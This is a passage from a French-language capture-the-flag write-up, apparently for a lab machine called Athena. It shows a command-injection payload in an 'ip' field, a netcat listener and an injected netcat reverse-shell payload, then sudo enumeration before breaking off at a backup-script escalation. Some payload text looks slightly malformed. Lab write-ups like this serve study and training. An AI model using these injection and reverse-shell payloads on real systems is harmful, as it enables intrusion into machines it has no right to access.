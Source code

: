 **Payload** :

```
ip=8.8.8.8$(whoami)
```

**Réponse** :

Si la réponse inclut le nom d'utilisateur du système, cela confirme la vulnérabilité.

### 🐚 Obtention d'un reverse shell

Pour obtenir un accès interactif, nous établissons un reverse shell.

**Sur notre machine** :

```bash
nc -lvnp 4444
```

**Payload envoyé** :

Le payload peut être envoyé via Burpsuite ou directement depuis la page web

```
ip=127.0.01+-c1$(nc+-1p+4444+-e+/bin/bash)&submit=
```

**Résultat** :

Nous obtenons un shell sur la machine cible.

---

## 🚀 Élévation de Privilèges pour être Athena

### 🔍 Analyse du système

Une fois connecté, nous explorons le système pour identifier des vecteurs potentiels d'élévation de privilèges.

**Commande** :

```bash
sudo -l
```

**Résultat** :

```
User may run the following commands on athena:
    (ALL) NOPASSWD: /usr/bin/backup.sh
```

L'utilisateur a la permission d'exécuter le script `/usr/bin/backup.sh` avec des privilèges root sans mot de passe.

### 📝 Analyse du script `backup.sh`

En examinant le script, nous trouvons une section où les fichiers sont copiés et compressés. Cela offre une opportunité d'injection de commandes.
